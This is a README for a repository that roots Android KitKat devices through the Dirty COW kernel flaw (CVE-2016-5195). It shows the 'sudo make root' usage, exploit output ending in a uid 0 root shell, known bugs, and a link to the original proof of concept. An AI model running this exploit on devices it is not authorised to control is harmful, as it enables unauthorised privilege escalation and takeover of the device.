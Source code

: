 # DirtyCowAndroid
Repo For Working on Dirty Cow Based Android Root Method    
Currently Linux Only    
Youtube: https://www.youtube.com/watch?v=bzrRWfDOQcM  
    
Should Spawn a root shell on device  
Usage sudo make root  
Output:  
[*] mmap 0xb6f00000  
[*] exploit (patch)  
[*] currently 0xb6f00000=464c457f  
[*] madvise = 0xb6f00000 13708  
[*] madvise = 0 1048576  
[*] /proc/self/mem 0 1048576  
[*] exploited 0xb6f00000=464c457f  
adb shell /system/bin/run-as  
running as uid 2000  
uid 0  
root@ZTE-V811:/ #
  
Tested On Android Kitkat 4.4  
##Bugs / Problems  
1)  
  System Will Hang If You Exec a command on spawned shell  
  Temp Fix: Exit Back to Terminal and type  
  1) adb shell  
  2) run-as  
  Going adb shell run-as will produce the hang  
2) 
  Android 5 (Samsung Galaxy S4)  
  setresgid/setresuid failed
3)
  Incompatible with devices with system partitions made read-only by the _hardware_, such as the DigiLand DL718M and other supercheap devices.
Oringal PoC Code: https://github.com/timwr/CVE-2016-5195

